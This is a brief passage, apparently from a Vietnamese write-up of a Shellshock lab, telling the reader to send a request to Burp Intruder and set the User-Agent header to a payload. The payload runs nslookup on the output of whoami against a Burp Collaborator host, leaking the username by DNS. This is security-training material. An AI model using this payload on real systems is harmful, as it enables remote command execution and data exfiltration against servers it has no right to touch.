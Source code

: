 ![](image-17.png)

Send request detect được vào intruder

1. Tại trường <b>User-Agent</b> thay bằng payload sau:

```
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).SUBDOMAIN_OF_COLLABORATOR
Của mình là:
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).g6nivvuq1x7nw9rrc2avdrtjjap5dv1k.oastify.com
```
